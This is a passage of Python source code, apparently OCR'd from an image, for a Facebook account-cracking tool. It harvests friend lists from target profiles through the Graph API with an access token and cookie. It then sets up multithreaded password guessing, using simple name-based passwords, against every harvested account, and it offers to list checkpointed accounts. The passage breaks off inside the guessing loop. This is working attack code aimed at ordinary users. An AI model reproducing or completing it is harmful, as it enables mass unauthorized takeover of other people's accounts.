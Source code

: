         try:
                jum=int(input(' \033[1;36mHow many ids you went to clone ?\033[1;37m '))
        except ValueError:
                exit(' Put only digits not latters ')
        if jum<1 or jum>5000:
                exit()
        ses=requests.Session()
        yz = 0
        for met in range(jum):
                yz+=1
                kl = input(f'\033[1;37m Put link no.{yz+0}: ')
                usrr.append(kl)
        linex()
        print(' All method working try 1 by 1 ')
        linex()
        print(' [1] Method 1 (for new ids) \n [2] Method 2 (for old ids)\n [3] Method 3 (for old ids)')
        linex()
        mthd = input(' Choose method: ')
        linex()
        print(' Do you went show cp account? (y/n): ')
        linex()
        cx=input(' Choose: ')
        if cx in ['y','Y','yes','Yes','1']:
                pcp.append('y')
        else:
                pcp.append('n')
        linex()
        print('\033[1;32m Dumping friend list...\033[1;37m')
        linex()
        for userr in usrr:
                try:
                        col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
                        for mi in col['friends']['data']:
                                try:
                                        iso = (mi['id']+'|'+mi['name'])
                                        if iso in id:pass
                                        else:id.append(iso)
                                except:continue
                except (KeyError,IOError):
                        pass
                except requests.exceptions.ConnectionError:
                        exit(f' No internet connection')
        try:
                plist = []
                try:
                        ps_limit = int(input(' How many passwords do you want to add ? '))
                except:
                        ps_limit =1
                linex()
                print('\033[1;32m exp: first last,firtslast,first123')
                linex()
                for i in range(ps_limit):
                        plist.append(input(f' Put password {i+1}: '))
                with tred(max_workers=30) as crack_submit:
                        clear()
                        total_ids = str(len(id))
                        print(' Total account : \033[1;32m'+total_ids+f' \033[1;33m>\033[1;36m> \033[1;37mMethod -> \033[1;37mM{mthd}')
                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                        linex()
                        for user in id:
                                ids,names = user.split('|')
                                passlist = plist